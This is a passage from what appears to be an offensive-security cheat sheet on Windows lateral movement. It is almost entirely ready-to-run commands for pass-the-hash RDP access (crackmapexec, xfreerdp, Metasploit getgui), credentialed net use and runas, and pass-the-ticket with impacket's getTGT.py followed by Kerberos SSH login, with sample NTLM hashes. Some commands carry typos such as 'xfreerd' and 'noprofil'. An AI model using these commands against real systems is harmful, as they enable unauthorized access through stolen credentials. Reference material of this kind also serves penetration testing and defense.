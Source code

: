 or with crackmapexec

```powershell
root@payload$ crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
```

or with Metasploit

```powershell
root@payload$ run getgui -u admin -p 1234
```

or with xfreerdp 

```powershell
root@payload$ xfreerdp /u:offsec /d:win2012 /pth:88a405e17c0aa5debbc9b5679753939d /v:10.0.0.1 # pass the hash works for Server 2012 R2 / Win 8.1+
root@payload$ xfreerdp -u test -p 36374BD2767773A2DD4F6B010EC5EE0D 192.168.226.129 # pass the hash using Restricted Admin, need an admin account not in the "Remote Desktop Users" group.
root@payload$ xfreerd /u:runner /v:10.0.0.1 # password will be asked
```

## Netuse 

Windows only

```powershell
PS C:\> net use \\ordws01.cscou.lab /user:DOMAIN\username password C$
```

## Runas 

```powershell
PS C:\> runas /netonly /user:DOMAIN\username "cmd.exe"
PS C:\> runas /noprofil /netonly /user:DOMAIN\username cmd.exe
```

## Pass the Ticket

```powershell
python3 getTGT.py -hashes aad3b435b51404eeaad3b435b51404ee:B65039D1C0359FA797F88FF06296118F domain.local/user
[*] Saving ticket in user.ccache
cp user.ccache /tmp/krb5cc_0
export KRB5CCNAME=/tmp/krb5cc_0
klist
```

## SSH

:warning: You cannot pass the hash to SSH, but you can connect with a Kerberos ticket (Which you can get by passing the hash!

```ps1
cp user.ccache /tmp/krb5cc_1045
ssh -o GSSAPIAuthentication=yes user@domain.local -vv
```


[DC01]: PS>